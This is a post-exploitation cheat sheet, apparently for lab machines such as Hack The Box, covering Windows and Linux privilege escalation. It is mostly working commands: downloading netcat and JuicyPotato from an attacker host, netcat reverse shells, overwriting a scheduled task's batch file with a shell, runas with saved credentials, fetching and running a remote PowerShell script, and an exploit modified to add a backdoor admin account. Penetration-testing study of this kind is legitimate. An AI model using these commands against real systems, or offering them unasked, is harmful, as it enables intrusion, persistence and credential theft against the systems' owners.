

# Post Exploitation (후속공격)

## Windows Privilege Escalation

### JuicyPotato

JuicyPotato is an automation PE script to escalate privilege from a Windows Service Accounts to NT AUTHORITY\SYSTEM.&#x20;

First, you need to check the OS information of the victim Windows Host by

```
systeminfo
```

You need a unique CLSID for different Windows OS. You can pick CLSID from [https://github.com/ohpe/juicy-potato/blob/master/CLSID/README.md](https://github.com/ohpe/juicy-potato/blob/master/CLSID/README.md)


<figure><figcaption></figcaption></figure>

Check if the victim is vulnearble to JuicyPotato PE script. SeImpersonatePrivilege should be enabled.

```
C:\Windows\system32>whoami /priv
```

<figure><figcaption></figcaption></figure>

Download nc.exe and juicypotato.exe to the victim host , then simply upload both to a writable directoy. I normall just write to a temp folder under \appdata\local\temp\\.

```
powershell.exe invoke-webrequest -uri http://$attackerip/nc.exe -outfile C:\users\user\appdata\local\temp\nc.exe
```

```
powershell.exe invoke-webrequest -uri http://$attackerip/JuicyPotato.exe -outfile C:\users\user\appdata\local\temp\jp.exe
```

If powershell isn't working, try with _certutil_ command.

```
certutil -urlcache -split -f http://$attackerip/JuicyPotato.exe jp.exe
```

Then create a rev.bat ( reverse shell bash ) file to get a reverseshell&#x20;

```
echo C:\users\user\appdata\local\temp\nc.exe -e cmd.exe 10.10.14.39 1340 > rev.bat
powershell.exe invoke-webrequest -uri http://$attackerip/rev.bat -outfile C:\users\user\appdata\local\temp\rev.bat
```

Then run Juicy with the correct  `clsid.`

```
jp.exe -t * -p C:\users\user\appdata\local\temp\rev.bat -l 1340 -c '{8F5DF053-3013-4dd8-B5F4-88214E81C0CF}'
```

On the attacker host, start the listener with some uncommon port

```
nc -lnvp 1340 
```

### Abusing Permission Issue

#### icals

You can try calcs command to see if you are able to grant root permission to the current/specific user.

To check the permission of the root.txt, use _icals_

```
icalcs root.txt
```

<figure><figcaption></figcaption></figure>

Only Administrator can access root.txt

However, Alfred owns the root.txt. The ownership of each file in a directory can be checked by&#x20;

```
dir /q /a:
```

/q - to show ownership.

/a: to all in the directory.

<figure><figcaption></figcaption></figure>

Since the user Alfred owns the root.txt, Alfred has the ability to grant users access to it regardless of anything else.

You can grant alfred read permssion to read the root.txt

```
C:\Users\Administrator\Desktop>cacls root.txt /g alfred:r
C:\Users\Administrator\Desktop>type root.txt

```

where

* /t -recursively apply
* /e - edit permissions
* /g -grant

_`alfred:r`_ to give alfread read control of the file

```
powershell -command Get-content .\hm.txt  -stream root.txt
```

#### schtasks

```
schtasks /query /fo LIST /v
```

<figure><figcaption></figcaption></figure>


We see C:\SVCcheck\SVCcheck.bat will be executed every 5 mins... Check the file permission

```
cacls "C:\SVCcheck\SVCcheck.bat"
```

<figure><figcaption></figcaption></figure>

Everyone has the full rights.

Now spawn your reverse shell to SVCcheck.bat by echo

```
echo "C:\Documents and Settings\albert\nc.exe" -nv 192.168.39.31 80 -e C:\WINDOWS\System32\cmd.exe > "C:\SVCcheck\SVCcheck.bat"
```

Then just simply wait for 5 mins you'll get the reverse shell.

#### runas  <a href="#runas-and-privilege-escalation" id="runas-and-privilege-escalation"></a>

You can check if administrator needs no password by&#x20;

```
net user administrator
```

<figure><figcaption></figcaption></figure>

Then you can simply make ncat reverse shell by runas&#x20;

```
runas /user:Administrator /savecred "nc.exe -c cmd.exe 10.10.xx.xx 1337"
```

```
nc -lnvp 1337
```

If you already got the administrator password, you can simply try psexec by running cmd as Administrator and get a shell.

```
runas /netonly /user:QUERIER\Administrator cmd.exe
psexec \\querier.htb cmd
```

#### Mounting C$ Manullay in case you can't access root.txt even with an adminstrator account.

```
net use Z: \\ARKHAM\C$
Z:
type root.txt
```

Powershell run as different user and get the reverse shell

```
Invoke-Command -ScriptBlock {\\10.10.14.38\share\nc.exe -e cmd.exe 10.10.14.38 4444} -Credential WORKGROUP\administrator -computer localhost
```

### Outdated Windows OS

Microsoft Windows \[Version 6.1.7601] (i.e. Win 7 SP1)

[https://www.exploit-db.com/exploits/40564/](https://www.exploit-db.com/exploits/40564/) (MS11-046)

```
i686-w64-mingw32-gcc 40564.c -lws2_32 -o 40564.exe 
```

<figure><figcaption></figcaption></figure>

Original code:

```c
// spawn shell (with elevated privileges)
    printf("         [*] Spawning shell\n");
    // spawn SYSTEM shell within the current shell (remote shell friendly)
    system ("c:\\windows\\system32\\cmd.exe /K cd c:\\windows\\system32");
```

Modified code to add admin user:

```c
    // create admin account (with elevated privileges)
    printf("         [*] Creating Admin Account (offsec/password)\n");
    system ("c:\\windows\\system32\\cmd.exe /K net user offsec password /add");
    system ("c:\\windows\\system32\\cmd.exe /K net localgroup administrators offsec /add");
    system ("c:\\windows\\system32\\cmd.exe /K net localgroup \"remote desktop users\" offsec /add");
```

### Using Impacket to remotely control/exploit windows

Impacket contains several tools for remote service execution, Kerberos manipulation, Windows credential dumping, packet sniffing.

* **Remote code Execution :** atexec.py, dcomexec.py, psexec.py, smbexec.py and wmiexec.py
* **SMB/MSRPC :** getArch.py, ifmap.py, lookupsid.py, samrdump.py, services.py, netview.py, smbclient.py, opdump.py, rpcdump.py and reg.py
* **Kerberos:** GetST.py, GetPac.py, GetUserSPNs.py, GetNPUsers.py, ticketer.py and raiseChild.py
* **Windows Secret:** mimikatz.py
* **Server Tools/MiTM Attacks:** karmaSMB.py and smbserver.py
* **WMI:** wmipersist.py
* **Known Vulnerabilities:** sambaPipe.py and sambaPipe.py
* **MSSQL / TDS:** mssqlclient.py
* **File Formats:** ntfs-read.py and registry-read.py.
* **Others:** mqtt\_check.py, rdp\_check.py, sniffer.py, ping.py, and ping6.py

#### lookupsid.py

This script allows you to bruteforce the Windows SID through \[MS-LSAT] MSRPC.

```
/opt/impacket/examples/lookupsid.py $user:stealth1agent@heist.htb
```

#### GetUserSPNs.py

```
GetUserSPNs.py active.htb/SVC_TGS:GPPstillStandingStrong2k18 -dc-ip 10.10.10.100 -request
```

### Using automation tools

You can use windows-privesc-checker by pentestmonkey



Or try with PowerUp.ps1 to find some hidden hints

```
PS C:\> powershell.exe import-module .\PowerUp.ps1
PS C:\> Invoke-AllChecks
```

#### Sherlock.ps1

PowerShell script to quickly find missing software patches for local privilege escalation vulnerabilities.

```
powershell “IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.43/Sherlock.ps1'); Find-AllVulns”
```


## Linux Privilege Escalation

Linux Privilege Escalation is not as complex as Windows. I'd recommend running the known automation scripts before you start exploiting.&#x20;

### Using automation tools

#### **LinEnum**

```
-k Enter keyword
-e Enter export location
-t Include thorough (lengthy) tests
-r Enter report name
-h Displays this help text
```



#### Dirty Sock



### **Abusing Permission Issue**

#### **Find suid and guid files**

```
#Find SUID
find / -perm -u=s -type f 2>/dev/null

#Find GUID
find / -perm -g=s -type f 2>/dev/null
```



### Searching some interesting files in linux

```
search -f *.txt
search -f *.zip
search -f *.doc
search -f *.xls
search -f config*
search -f *.rar
search -f *.docx
search -f *.sql

.ssh:
.bash_history

/var/mail
/var/spool/mail
```
